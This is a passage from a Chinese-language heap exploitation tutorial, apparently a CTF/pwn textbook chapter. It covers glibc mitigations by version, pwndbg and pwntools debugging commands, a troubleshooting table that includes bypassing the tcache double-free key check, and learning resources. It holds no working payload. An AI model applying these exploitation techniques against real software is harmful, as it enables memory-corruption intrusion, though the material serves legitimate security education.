| 2.27 | 基本无变化 | Tcache Poisoning 仍然有效 |
| 2.28 | tcache key 检查 | Double Free 需要绕过 key 字段 |
| 2.29 | Top chunk size 检查、tcache 增强 | House of Force 失效，Tcache 需更复杂绕过 |
| 2.31 | tcache perthread 检查 | 基础 Tcache Poisoning 受限 |
| 2.32 | Safe Linking | 单链表指针加密，需堆地址泄露 |
| 2.34 | Hook 移除 | `__malloc_hook`/`__free_hook` 不再存在 |
| 2.35 | 更多检查 | 需要更高级的利用技术（如 FSOP、IO_FILE） |

### 16.3.12 实战调试技巧

#### 使用 pwndbg/pwngdb 调试堆

```bash
# 安装 pwndbg（如果未安装）
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh

# 常用命令
pwndbg> heap          # 显示堆概览
pwndbg> bins          # 显示所有 bin 的状态
pwndbg> tcache        # 显示 tcache 状态
pwndbg> vis_heap_chunks  # 可视化堆 chunk
pwndbg> heap chunk <addr>  # 查看特定 chunk 的详细信息
pwndbg> parse_heap <addr>  # 解析堆布局
```

#### 使用 pwntools 调试

```python
from pwn import *

# 启动并附加 GDB
p = process('./vuln')
gdb.attach(p, '''
    set pagination off
    c
''')

# 或使用 GDB 的 Python 接口
p = gdb.debug('./vuln', '''
    break main
    continue
''')
```

#### 常见调试场景

```python
# 场景：malloc 返回了意外地址
# 在 malloc 返回处下断点
gdb.attach(p, '''
    break *malloc+<offset>
    commands
        silent
        printf "malloc(%#lx) = %p\\n", $rdi, $rax
        continue
    end
    c
''')

# 场景：检查 free 的参数
gdb.attach(p, '''
    break *free
    commands
        silent
        printf "free(%p)\\n", $rdi
        info registers rdi
        x/8gx $rdi-0x10
        continue
    end
    c
''')
```

### 16.3.13 常见错误与排查

| 错误现象 | 可能原因 | 排查方法 |
|----------|---------|---------|
| `malloc(): memory corruption (fast)` | fastbin chunk 的 size 不匹配 | 用 pwndbg 检查 fastbin 链表 |
| `free(): invalid pointer` | 传入的指针不是 chunk 的用户数据区起始地址 | 检查指针是否偏移了 0x10 字节 |
| `free(): double free detected` | tcache key 检查触发 | 需要先清除 key 字段或使用其他路径 |
| `corrupted size vs. prev_size` | prev_size 与前一个 chunk 的 size 不一致 | 检查 chunk 头部数据是否正确 |
| Segfault 在 malloc 内部 | 访问了不可读的地址 | 用 gdb backtrace 定位崩溃位置 |
| `top chunk` 合并异常 | top chunk size 字段被损坏 | 检查溢出是否覆盖了 top chunk 头部 |
| one_gadget 不生效 | one_gadget 的约束条件不满足 | 尝试不同的 one_gadget 或调整栈布局 |

### 16.3.14 学习资源推荐

- **how2heap**（https://github.com/shellphish/how2heap）：Shellphish 团队维护的堆利用教程，覆盖从基础到高级的各种技术，每个技术都有独立的可执行示例
- **glibc 源码**：malloc/malloc.c 是最终参考，所有利用技术的细节都在源码中
- **CTF Wiki 堆利用**（https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/）：中文堆利用教程，适合入门
- **angelboy 的 Heap Lab**：台湾安全研究员的堆利用课程，深入讲解 glibc 内部机制
- **Azeria Labs**（https://azeria-labs.com）：ARM 架构下的堆利用技术
- **《Hacking: The Art of Exploitation》**：经典书籍，包含堆溢出的基础讲解
- **libc-database**（https://github.com/niklasb/libc-database）：通过泄露地址反查 libc 版本的工具
